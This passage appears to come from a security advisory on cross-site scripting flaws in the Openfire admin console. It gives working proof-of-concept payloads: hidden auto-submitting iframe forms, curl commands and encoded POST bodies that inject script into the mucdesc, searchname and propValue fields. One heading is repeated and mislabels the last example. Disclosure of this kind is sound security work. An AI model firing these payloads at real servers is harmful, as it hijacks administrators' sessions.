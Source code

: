 The following code allows the creation of a web frame exploiting the vulnerability:

```
<iframe style="display:none" name="xss-frame"></iframe>
<form id="xss-form" action="http://OpenFireServerIP:9090/muc-service-edit-form.jsp" >
<input type="text" name="save" value="true" >
<input type="text" name="mucname" value="test" >
<input type="text" name="mucdesc" value="%22/><script>alert('XSS')</script>" >
</form>

<script>document.getElementById("xss-form").submit()</script>
```

or with this curl command:

```
curl --data "save=true&mucname=test&mucdesc=test%22%2F%3E%3Cscript%3Ealert%28%27XSS-2%27%29%3C%2Fscript%3E" https://OpenFireServerIP:9090/muc-service-edit-form.jsp --cookie="JSESSIONID=XXX"
```

#### *searchname* variable from *plugins/search/search-props-edit-form.jsp*

The following POST values can be sent to trigger the vulnerability:

```
searchEnabled=true&searchname=search%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&groupOnly=false
```

The following code allows the creation of a web frame exploiting the vulnerability:

```
<iframe style="display:none" name="xss-frame"></iframe>
<form id="xss-form" action="http://OpenFireServerIP:9090/plugins/search/search-props-edit-form.jsp?save" method="post" target="xss-frame" >
<input type="text" name="searchEnabled" value="true" >
<input type="text" name="searchname" value="search%22/><script>alert('XSS')</script>" >
<input type="text" name="groupOnly" value="false" >
</form>

<script>document.getElementById("xss-form").submit()</script>
```

or with this curl command:

```
curl "http://OpenFireServerIP:9090/plugins/search/search-props-edit-form.jsp" --data="searchEnabled=true&searchname=%22/%3E%3Cscript%3Ealert('XSS')%3C/script%3E&groupOnly=false" --cookie="JSESSIONID=XXX"
```


#### *searchname* variable from *page plugins/search/search-props-edit-form.jsp*

The following POST values can be sent to trigger the vulnerability:

```
propName=adminConsole.port&propValue=9090%22+onmouseover%3D%22alert%28%27xxs%27%29%22+x%3D%22&encrypt=false&save=Save+Property
```
